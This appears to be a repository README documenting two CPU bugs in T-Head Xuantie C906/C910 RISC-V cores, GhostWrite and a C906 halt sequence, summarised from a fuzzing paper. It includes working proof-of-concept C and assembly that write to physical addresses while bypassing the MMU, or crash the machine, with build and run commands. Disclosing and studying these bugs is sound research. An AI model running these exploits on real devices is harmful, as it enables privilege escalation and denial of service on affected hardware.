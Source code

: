 # Summary of Bugs in Xuantie C900-series core designs

### XTheadVector unit-strided stores with reserved width may bypass the MMU

Also known as [GhostWrite](https://ghostwriteattack.com/).

In both XTheadVector and V extension 1.0, unit-strided vector stores are
encoded as,

```
  31  29   28  27 26  25  24   20 19  15 14   12 11  7 6       0
 |  nf  | mew | mop | vm | sumop |  rs1 | width | vs3 | opcode  |
 |      |     | 00  |    |       |      |       |     | 0100111 |
 |      |     |     |    |       |      |       |     |         |
```

`mew` and `width` are combined together for specifying the unit length, but
instructions with `mew = 1` (length >= 128 bits) are reserved for now.

> The mew bit (inst[28]) when set is expected to be used to encode expanded
> memory sizes of 128 bits
and above, but these encodings are currently
> reserved.
> (The RISC-V Instruction Set Manual Volume I 20240411, 31.7.3)

C906 and C910 incorrectly decode instructions with `mew = 1`, and execute them.
On C906 a Store/AMO access fault will be raised, on C910 the instruction just
bypasses the MMU, and writes the least byte of `vs3` to address `rs1`.

On C910, the instruction is able to write both MMIO and memory addresses. The
value of fields `nf` doesn't make any differences on the length of written
bytes.

#### Proof of Concept

This PoC code makes use of the bug to write a string directly to the serial,
bypassing the kernel and MMU.

```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>

static void
ghostwrite(uintptr_t addr, uint8_t val)
{
        asm volatile ("\n\tth.vsetvli zero, zero, e8, m1"
                      "\n\tth.vmv.v.x v0, %0"
                      "\n\tmv t0, %1"
                      "\n\t.long 0x12028027"
                      : : "r" (val), "r"(addr) : "v0", "t0", "memory");
}

static void
ghostprint(uintptr_t p, const char *s)
{
        while (*s) {
                usleep(200);
                ghostwrite(p, *s);
                s++;
        }
}

int
main(int argc, const char *argv[])
{
        if (argc != 2) {
                printf("Usage: %s <UART_BASE>\n", argv[0]);
                return 0;
        }

        uintptr_t serialBase = strtoul(argv[1], NULL, 0);

        ghostprint(serialBase, "CRACKED BY GHOSTWRITE\n\r");

        return 0;
}
```

Must be compiled with `-march=rv64gc_xtheadvector`, e.g.

```shell
gcc ghostwrite-serial.c -o ghostwrite-serial -march=rv64gc_xtheadvector
```

and run with the UART base address, for example,

```shell
./ghostwrite-serial 0xffe7014000
```

on TH1520 SoC. `CRACKED BY GHOSTWRITE` should appear on the serial.

#### Affected Variants

- C906: tested with PoC on Sophgo CV1800B SoC
- C910: tested with PoC on T-Head TH1520 SoC

### Load instructions that modify the base register in XTheadMemIdx may halt C906

Also known as C906 halt sequence.

XTheadMemIdx provides extra integer memory operations. Among them there're 14
instructions load from memory address specified by the base register as well as
adjust the base register's value,

- th.lbib
- th.lbia
- th.lwuib
- th.lbuib
- th.lwia
- th.ldia
- th.lwib
- th.lbuia
- th.lhuia
- th.lhia
- th.ldib
- th.lhib
- th.lwuia
- th.lhuib

the last two character represents the order between load operation and register
adjustment,

- `a`: after increment, adjusting the base register -> loading from memory
- `b`: before increment, loading from memory -> adjusting the base register

These instructions are useful for array and stack accesses. Encodings with the
destination same as the base are reserved, but these reserved encodings may
crash C906 when it's followed by a CSR read targetting the same register, and
another access against the register.

Note that arbitrary instructions could be inserted between these three
operations, as long as they have nothing to do with the used register. Even the
subsequent sequence is incomplete for triggerring a crash, C906 still doesn't
report any exceptions for the reserved encoding.

### PoC

```asm
        .global main
	main:
        mv              t0,     sp

        # th.lbib       t0,     (t0),   0,      0
        .word 0x0802c28b
        frcsr           t0
        addi            t0,     zero,   0

        ret
```

Could be compiled with GCC directly. Running it on C906 cores trigger a machine
crash.

```shell
gcc c906-halt-sequence.S -o c906-halt-sequence
```

#### Affected Variants

- C906: tested with PoC on Sophgo CV1800B SoC
- C910: isn't vulnerable to the issue. But it doesn't raise any exceptions for
        the reserved instructions, either.

## Reference

This documentation is summarized from
[RISCVuzz: Discovering Architectural CPU Vulnerabilities via Differential Hardware Fuzzing](https://ghostwriteattack.com/riscvuzz.pdf),
thanks for the authors' work!

[T-Head Exception Specification](https://github.com/XUANTIE-RV/thead-extension-spec)
describes various extensions and corresponding instructions' format and behavior.
